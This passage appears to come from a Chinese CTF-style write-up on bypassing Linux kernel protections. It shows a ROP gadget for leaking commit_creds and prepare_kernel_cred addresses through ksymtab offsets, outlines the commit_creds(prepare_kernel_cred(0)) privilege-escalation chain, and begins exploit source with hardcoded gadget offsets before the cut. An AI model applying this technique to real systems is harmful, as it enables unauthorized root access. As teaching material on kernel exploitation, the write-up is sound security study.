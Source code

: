 ksymtab 是这么个样子

```c
struct kernel_symbol {
	  int value_offset;
	  int name_offset;
	  int namespace_offset;
};
```

可以拿到第一个 偏移，之后加上 __ksymtab_commit_creds 就可以得到真实地址了，因此通过gadget 将数据写入rax之后在返回到用户态，就可以得到其真实地址了，对此，也有个神奇的gadget

```c
ffffffff81004aad:	48 8b 40 10          	mov    rax,QWORD PTR [rax+0x10]
ffffffff81004ab1:	5d                   	pop    rbp
ffffffff81004ab2:	c3                   	ret    
```

但是 ，直接在函数中调用 write 貌似会清掉 rax ，因此可以写一个分发器，每次返回到这个 分发器函数 ，另外 kpti_trampoline 还可以控制 rdi ，那就可以直接 case 了

之后的 commit_creds(prepare_kernel_cred(0)) 也同样分为两次，首先第一次执行 prepare_kernel_cred(0) 得到结构体并保存，在第二次 ROP的时候在用上即可

![image-20221012175419841](kernel%E4%BF%9D%E6%8A%A4%E7%BB%95%E8%BF%87/image-20221012175419841.png)

##### exp

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

void get_shell();

size_t vmlinux_base = 0xffffffff81000000;
size_t user_cs, user_ss, user_rflags, user_sp;

size_t commit_creds = 0;
size_t prepare_kernel_cred = 0;
size_t __ksymtab_commit_creds = 0xf87d90;
size_t __ksymtab_prepare_kernel_cred = 0xf8d4fc;

size_t swapgs_restore_regs_and_return_to_usermode = 0x200f10;
size_t kpti_trampoline = 0;

size_t write_rax_rax_pop_rbp_ret = 0x4aad;
size_t pop_rdi_rbp_ret = 0x38a0;
size_t pop_rax_ret = 0x4d11;


```
